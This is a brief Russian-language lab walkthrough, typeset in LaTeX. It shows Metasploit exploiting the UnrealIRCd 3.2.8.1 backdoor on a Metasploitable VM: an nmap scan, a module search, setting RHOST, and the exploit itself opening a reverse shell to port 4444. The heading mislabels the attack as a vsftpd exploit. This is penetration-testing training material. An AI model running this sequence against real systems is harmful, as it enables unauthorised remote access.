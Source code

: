 \documentclass{article}
\begin{document}
\paragraph{Получить консоль используя уязвимость в vsftpd}
~

\begin{enumerate}
\item Сканируем целевую машину с целью определить версию irc
\item Осуществляем поиск подходящего эксплойта
\item Устанавливаем параметры эксплойта (rhost)
\item Запускаем эксплойт
\end{enumerate}

\begin{verbatim}
msf exploit(vsftpd_234_backdoor) > nmap 192.168.0.104 -sV -p 6667
[*] exec: nmap 192.168.0.104 -sV -p 6667

Starting Nmap 6.47 ( http://nmap.org ) at 2015-06-03 07:15 EDT
Nmap scan report for 192.168.0.104
Host is up (0.00020s latency).
PORT     STATE SERVICE VERSION
6667/tcp open  irc     Unreal ircd
MAC Address: 08:00:27:C0:D5:A0 (Cadmus Computer Systems)
Service Info: Host: irc.Metasploitable.LAN

Service detection performed. Please report any incorrect results 
at http://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.18 seconds


msf exploit(vsftpd_234_backdoor) > search unreal

Matching Modules
================

   Name                                        Disclosure Date  
   Rank       Description
   ----                                        ---------------  
   ----       -----------
   exploit/linux/games/ut2004_secure           2004-06-18       
   good       Unreal Tournament 2004 "secure" Overflow (Linux)
   exploit/unix/irc/unreal_ircd_3281_backdoor  2010-06-12       
   excellent  UnrealIRCD 3.2.8.1 Backdoor Command Execution
   exploit/windows/games/ut2004_secure         2004-06-18       
   good       Unreal Tournament 2004 "secure" Overflow (Win32)

msf exploit(vsftpd_234_backdoor) > use exploit/unix/irc/
unreal_ircd_3281_backdoor 
msf exploit(unreal_ircd_3281_backdoor) > set RHOST 192.168.0.104
RHOST => 192.168.0.104
msf exploit(unreal_ircd_3281_backdoor) > exploit

[*] Started reverse double handler
[*] Connected to 192.168.0.104:6667...
    :irc.Metasploitable.LAN NOTICE AUTH :*** Looking up your 
    hostname...
    :irc.Metasploitable.LAN NOTICE AUTH :*** Couldn't resolve 
    your hostname; using your IP address instead
[*] Sending backdoor command...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo 9BgYY1xkmWTTKmbM;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "9BgYY1xkmWTTKmbM\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 2 opened (192.168.0.105:4444 -> 
192.168.0.104:59388) at 2015-06-03 07:19:04 -0400

hostname
metasploitable
\end{verbatim}
\end{document}

